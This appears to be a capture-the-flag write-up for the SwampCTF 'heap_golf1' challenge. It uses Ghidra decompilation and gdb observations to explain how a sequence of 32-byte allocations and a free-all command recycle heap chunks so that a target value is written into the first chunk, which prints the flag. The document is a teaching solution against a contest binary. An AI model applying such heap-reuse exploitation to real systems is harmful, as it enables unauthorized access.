






# heap_golf1

Challenge Prompt: Analog golf? That's so 21st century... How about a round of DigiGolf? It's heaps of fun, and security is tight! Just throw your credit cube this way and we can get started...

When running the binary, there are several specified options for user input. Either (-1, -2, or another int to be used as a size)

The prompt with expected input appears as below:

```
target green provisioned.
enter -1 to exit simulation, -2 to free course.
Size of green to provision:
```

There are several important variables that were identified during the reversing process that I renamed based on inferences on their usage and behavior.

```
    int user_input;
    int *first_malloc_ptr;
    int *malloc_ptr;
    int num_allocs;
    int free_loop_cnt;
    int *alloc_list [50];
    char input_buffer [8];
```

The first thing to understand was to figure out and verify the options for user input.

As seen in the ghidra decompiler output, 4 bytes were read from standard in and passed as an integer to the program. 

<pre>
... code above
<b>read(1,input_buffer,4);</b>
user_input = atoi(input_buffer);
... code below
</pre>

If this value was -1, then the program would exit.

<pre>
    if (user_input == -1) {
LAB_004008c3:
      if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        <b>__stack_chk_fail();</b>
      }
      return 0;
    }
</pre>

If the user input was -2, then a loop of calls to free() would be executed on pointers stored in an array.

<pre>
    if (user_input == -2) {
      free_loop_cnt = 0;
      <b>while (free_loop_cnt < num_allocs) {
        free(alloc_list[(long)free_loop_cnt]);
        free_loop_cnt = free_loop_cnt + 1;
      }</b>
      alloc_list[0] = (int *)malloc(0x20);
      write(0,"target green provisioned.\n",0x1a);
      num_allocs = 1;
    }
</pre>

The else block would malloc(user_input) based on the size a user would pass and write the local variable num_allocs to the data of the heap chunk. After every allocation, the local variable num_allocs is incremented to keep count of the number of allocations.

<pre>
    else {
      <b>malloc_ptr = (int *)malloc((long)user_input);
      *malloc_ptr = num_allocs;</b>
      alloc_list[(long)num_allocs] = malloc_ptr;
      num_allocs = num_allocs + 1;
      if (num_allocs == 0x30) {
        write(0,"You\'re too far under par.",0x19);
        goto LAB_004008c3;
      }
    }
</pre>

At the bottom of main(), win_func() is called if the value 4 is in the data of the first heap chunk. 

This is an allocation that we do not initially control, or do we?

Also, win_func() will call <b>system("/bin/cat flag.txt")</b>

<pre>
    if (<b>*first_malloc_ptr == 4</b>) {
      win_func();
    }
</pre>

<p align="center">  </p>

At this point, I know that as a user I have control over the size of the chunks I can allocate with malloc() onto the heap, and I can trigger a free() of all of those chunks.

However, there are two malloc()'s that I do not control. 

First is at the beginning of the code, before user_input is requested, there is a call to malloc(32) which is set to what I called the first_malloc_ptr. Right after the function epilogue, notice the call the malloc()

<p align="center">  </p>

Second is after the loop of free()'s is triggered, the ptr at alloc_list[0] is used to malloc(32).

<pre>
    if (user_input == -2) {
      free_loop_cnt = 0;
      while (free_loop_cnt < num_allocs) {
        free(alloc_list[(long)free_loop_cnt]);
        free_loop_cnt = free_loop_cnt + 1;
      }
      <b>alloc_list[0] = (int *)malloc(0x20);</b>
      write(0,"target green provisioned.\n",0x1a);
      num_allocs = 1;
    }
</pre>

Using gdb and keeping track of the variable num_allocs and the chunks being created with gef, the allocation behavior was observed.

<p align="center">  </p>

Because we control the size of our allocations, we can set up the heap in such a way that the free list will be walked backwards until we reach the heap chunk that first_malloc_ptr is pointing to in the heap and write num_alloc when its value is 4.

First, we do four allocations of size 32 to match the chunk size of the first allocation that we did not control.

<p align="center">  </p>

Then, we trigger the free() on all of the nodes that we just allocated. Additionally, this code path will malloc(32) for us and take up one of the free blocks.

<p align="center">  </p>

Finally, we allocate four more times of user specified size 32 in order to walk the free list until we reach the first allocation and write the value of num_alloc which at this point is 4.

<p align="center">  </p>

So the final terminal output for the solution is:

<pre>
nc chal1.swampctf.com 1066
target green provisioned.
enter -1 to exit simulation, -2 to free course.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: -2
target green provisioned.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
<b>flag{Gr34t_J0b_t0ur1ng_0ur_d1gi7al_L1nk5}</b>
Size of green to provision: ^C
</pre>
